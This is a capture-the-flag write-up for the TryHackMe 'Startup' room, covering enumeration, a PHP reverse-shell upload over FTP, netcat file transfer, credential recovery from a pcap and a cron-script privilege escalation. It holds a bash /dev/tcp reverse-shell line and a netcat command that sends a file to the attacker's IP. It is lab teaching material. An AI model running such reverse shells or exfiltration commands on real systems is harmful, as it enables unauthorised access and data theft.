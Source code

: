 ```yaml
---
title: "Startup TryHackMe"
date: "08-08-2021"
author: "Reda BELHAJ"
summary: "We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Created by elbee"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Startup/bg.png"
---
```

Let’s take a look at the [Startup CTF](https://tryhackme.com/room/startup) on TryHackMe.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.172.186
```
![Nmap](/images/Startup/nmap.jpg)

The “Nmap Output” displayed `3` services running under ports 21, 22 and 80.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/Startup/gobuster.jpg)

## Exploiting
Let's take a closer look at the /files directory:
![Files](/images/Startup/files.jpg)

In the `/files` we found a directory and two files: a text file and an image. The same files found on in the the FTP server:
![FTP](/images/Startup/ftp.jpg)

So Now I decided to put a reverse shell file inside the ftp directory to access the machine, With the use of [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) I changed the ip address and the port:
![Payload](/images/Startup/payload.jpg)

And I started a netcat listener on the local machine before clicking the php-reverse-shell.php:

```
nc -nlvp 4444
```

And we found the special `recipe.txt`
## User Flag
Also I found an uncommon directory `/incidents` with a .pcapng file and with this method I download the file:

- In the local machine:

```
nc -lvp 1234 > suspicious.pcapng
```

- In the victim machine:

```
nc 10.8.174.180 1234 < suspicious.pcapng
```
Then I analyzed the packets and I found:
![Pcap](/images/Startup/wireshark.jpg)

With The credentials that I've found I tried to swith into user `lennie`:

```
su lennie
```

```
THM{***********************************}
```
## Root Flag
In the home directory I searched inside the scripts dir an I've found two scripts one have :
![Planner](/images/Startup/planner.jpg)

And the script called another file that is execute: `/etc/print.sh`, The file also is owned by user lennie So I want to create a reverse shell using [GTFObins](https://gtfobins.github.io/gtfobins/bash/#reverse-shell) and I add this to the script:

```
bash -c 'exec bash -i &>/dev/tcp/10.8.174.180/4444 <&1'
```

Bingo I'm now a root:

```
THM{***********************************}
```
